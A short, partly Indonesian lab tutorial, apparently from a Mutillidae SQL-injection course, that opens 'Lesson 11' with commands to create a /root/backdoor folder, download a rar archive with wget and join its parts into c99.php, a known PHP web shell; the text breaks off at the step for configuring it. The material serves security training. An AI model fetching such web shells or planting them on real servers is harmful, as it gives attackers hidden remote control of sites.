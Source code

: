 # Lesson 11 : SQL Injection Union Exploit #4 (Create PHP Upload Script)

## Download c99.php
1. Open a console terminal
2. Get Rar File
- Buka terminal, jalankan perintah berikut :
```
mkdir -p /root/backdoor
cd /root/backdoor/
wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson11/stuff.rar
ls -lrt
```
3. Extract Rar File
   - Jalankan perintah berikut pada terminal :
```
unrar x stuff.rar
cat part1.txt part2.txt part3.txt > c99.php
cp c99.php c99.php.bkp
ls -lrt
```
4. Configure and Prepare c99.php